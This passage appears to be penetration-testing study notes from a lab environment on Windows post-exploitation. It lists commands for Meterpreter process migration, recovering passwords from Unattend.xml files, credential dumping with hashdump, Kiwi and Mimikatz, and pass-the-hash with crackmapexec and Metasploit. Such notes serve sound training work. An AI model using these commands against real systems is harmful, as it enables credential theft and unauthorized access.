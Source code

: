     * Ex. `getpid`: 2628, `ps:`



    <table><thead><tr><th width="89">PID</th><th width="76">PPID</th><th>Name</th><th width="79">Arch</th><th width="92">Session</th><th>User</th><th>Path</th></tr></thead><tbody><tr><td>2628</td><td>4780</td><td>WHAYQtsbkO.exe</td><td></td><td>1</td><td></td><td></td></tr><tr><td>...</td><td>...</td><td>...</td><td>...</td><td>...</td><td>...</td><td>...</td></tr><tr><td>2948</td><td>2036</td><td>explorer.exe</td><td>X64</td><td>1</td><td>ATTACKDEFENSE\Administrator</td><td>C:\Windows\explorer.exe</td></tr></tbody></table>
* `getpid` : 2948
* Of course you can repeat the process to become NT AUTHORITY\SYSTEM

### Password in configuration file (Unattend.xml)

* An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
* ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
* Extract password and decode it (from base64)

### Credential Dumping (Mimikatz - Kiwi - Hashdump)

* Prerequisites: User must be a member a local Administrators.

1. hashdump (Metasploit - Meterpreter)
   * You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   * `hashdump`
2. Kiwi (Metasploit - Meterpreter)
   * You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   * `load kiwi`
   * `creds_all` Retrieve all credentials (parsed)
   * `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   * To find the clear text passwords : `lsa_dump_secrets`
     * However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3. Mimikatz
   * upload mimikatz.exe
   * `\mimkatz.exe`
   * `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   * `lsadump::sam` : NTLM hashes for all of the user accounts on the system
   * `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

### Pass the Hash

1. `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2. Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   * empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     * `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   * With `hashdump` you have the right format

### Other

* Powershell History
* Saved Windows Credentials
  * cmdkey /list
  ```